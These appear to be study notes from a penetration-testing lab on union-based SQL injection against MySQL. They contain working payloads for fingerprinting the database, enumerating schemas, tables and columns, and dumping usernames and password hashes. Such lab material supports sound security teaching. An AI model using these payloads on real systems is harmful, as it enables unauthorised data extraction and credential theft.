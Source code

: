 ### Database Enumeration via SQL Injection

In the previous sections, we learned about SQL queries in MySQL and how to exploit them through SQL injection. This section demonstrates how to enumerate and extract data from a database using these techniques.
### MySQL Fingerprinting

To determine the DBMS type:

| Payload          | When to Use           | Expected Output               | Wrong Output / Behavior |
| ---------------- | --------------------- | ----------------------------- | ----------------------- |
| SELECT @@version | Full output available | MySQL version string          | MSSQL version / Error   |
| SELECT POW(1,1)  | Numeric-only output   | 1                             | Error                   |
| SELECT SLEEP(5)  | Blind/no output       | Response delayed by 5 seconds | No delay                |
Example:

```sql
cn' UNION SELECT 1,@@version,3,4-- -
```

Output:

```
10.3.22-MariaDB-1ubuntu1
```

Indicates: **MariaDB/MySQL**
### INFORMATION_SCHEMA Enumeration

MySQL has a special database `INFORMATION_SCHEMA` that holds metadata:

- **SCHEMATA** — Lists all databases    
- **TABLES** — Lists tables in each database
- **COLUMNS** — Lists columns in each table
#### 1. List Databases

```sql
cn' UNION SELECT 1,schema_name,3,4 FROM INFORMATION_SCHEMA.SCHEMATA-- -
```

Output:

```
ilfreight, dev, information_schema, mysql, performance_schema
```

#### 2. Find Current Database

```sql
cn' UNION SELECT 1,database(),2,3-- -
```

Output:

```
ilfreight
```

#### 3. List Tables in `dev` Database

```sql
cn' UNION SELECT 1,TABLE_NAME,TABLE_SCHEMA,4 FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='dev'-- -
```

Output:

```
credentials, framework, pages, posts (TABLE_SCHEMA = dev)
```

#### 4. List Columns in `credentials` Table

```sql
cn' UNION SELECT 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='credentials'-- -
```

Output:

```
username, password (TABLE = credentials, DB = dev)
```
### Dumping Data

Now that we know the database, table, and column names, we can craft a payload to dump actual credentials:

```sql
cn' UNION SELECT 1, username, password, 4 FROM dev.credentials-- -
```

Output:

```
admin / [hash], dev_admin / [hash], api_key / [hash]
```

We now have usernames, password hashes, and sensitive data from the `credentials` table in the `dev` database.

**Next Steps:** Use these credentials in further testing or try cracking password hashes. You’ve successfully performed database enumeration via SQLi.
# Tags
> #Exploitation #Service-Exploitation #MySQL